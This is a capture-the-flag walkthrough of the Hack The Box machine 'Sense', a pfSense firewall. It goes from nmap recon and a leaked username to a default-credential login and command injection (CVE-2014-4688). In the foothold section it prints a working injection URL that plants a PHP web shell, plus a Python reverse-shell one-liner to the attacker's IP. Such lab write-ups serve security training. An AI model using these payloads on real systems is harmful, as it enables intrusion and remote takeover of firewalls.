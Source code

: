# Sense

## Machine Info

![Sense](./Sense.assets/Sense.png)

## Recon

- nmap

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://sense.htb/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35
|_http-title: 501
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): Comau embedded (88%)
Aggressive OS guesses: Comau C4G robot control unit (88%)
No exact OS matches for host (test conditions non-ideal).
```

```
| http-enum:
|   /javascript/sorttable.js: Secunia NSI
|   /changelog.txt: Interesting, a changelog.
|_  /tree/: Potentially interesting folder
```

- changelog.txt -> one vuln remaining in this system

```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

- path recon -> `system-users.txt` -> username: **Rohit**

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

## Foothold

### Default Cred for pfSense

- cred: **rohit:pfsense**

![image-20231215231853388](./Sense.assets/image-20231215231853388.png)

### CVE-2014-4688

system enum:

- PFSense **2.1.3**-RELEASE (amd64) built on Thu May 01 15:52:13 EDT 2014 FreeBSD 8.3-RELEASE-p16

exploit methodology:

- [PfSense Vulnerabilities Part 2: Command Injection - Protean Security](https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/)
- POC:

![image-20231215232105900](./Sense.assets/image-20231215232105900.png)

![image-20231215232110169](./Sense.assets/image-20231215232110169.png)

- RCE POC: `https://10.10.10.60/status_rrd_graph_img.php?database=queues;cd%20..;cd%20..;cd%20..;cd%20..;cd%20usr;cd%20local;%20cd%20www;echo%20%27%3C?php%20system($_GET[%22cmd%22\]);?%3E%27%3Ea.php`
- rshell payload:
  - `python -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.14.39",1234));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
  - URL: `https://10.10.10.60/a.php?cmd=python -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.14.39",1234));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`

![image-20231215232212440](./Sense.assets/image-20231215232212440.png)

- Besides, exploitdb 43560 from searchsploit (unfortunately, this exploit is in 2018 while the machine is in 2017)

![image-20231215232324807](./Sense.assets/image-20231215232324807.png)

### CVE-2016-10709

another vulnerability for this system: [CVE-2016-10709 : pfSense before 2.3 allows remote authenticated users to execute arbitrary OS commands via a '|' character in the status_ (cvedetails.com)](https://www.cvedetails.com/cve/CVE-2016-10709/)

## Exploit Chain

path enum -> sensitive file leakage -> username get -> default pass -> rce -> root shell
